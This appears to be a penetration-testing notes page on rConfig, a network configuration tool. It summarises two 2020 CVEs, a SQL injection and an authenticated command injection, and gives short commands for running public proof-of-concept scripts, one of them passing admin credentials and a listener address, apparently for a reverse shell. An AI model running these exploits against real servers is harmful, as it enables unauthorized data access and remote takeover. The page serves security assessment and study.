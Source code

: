 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# rConfig

[rConfig](https://github.com/rconfig/rconfig) is an open-source network configuration management tool primarily used for backing up and managing device configurations. It is commonly deployed in enterprise environments to automate configuration snapshots of routers, switches, and other network equipment. The application is **PHP-based** and relies on a **MySQL backend**, making it a frequent target for web application security assessments due to historically poor input sanitization and vulnerable database interactions.

## SQLi

rConfig versions up before `3.9.5` are vulnerable to a **SQLi** flaw ([CVE-2020-10220](https://nvd.nist.gov/vuln/detail/CVE-2020-10220)) through the `searchColumn` parameter in `commands.inc.php`. This flaw enables unauthorized access to sensitive data or manipulation of the database. A working [PoC](https://www.exploit-db.com/exploits/48208) is available.

```bash
$ python3 48208.py https://<target-IP>
```

## Authenticated RCE

rConfig versions up before `3.9.5` are also vulnerable to a command injection flaw ([CVE-2020-10879](https://nvd.nist.gov/vuln/detail/CVE-2020-10879)) in `lib/crud/search.crud.php`. The `nodeId` parameter is passed directly to the `exec` function without proper sanitization, allowing an attacker to execute arbitrary commands on the server. A working [PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) is also available.

```bash
$ python3 48241.py https://<target-IP> admin Pass123! 192.168.45.170 80
```

A PoC that combines both CVEs is available [here](https://github.com/CSpanias/rConfig_rce).

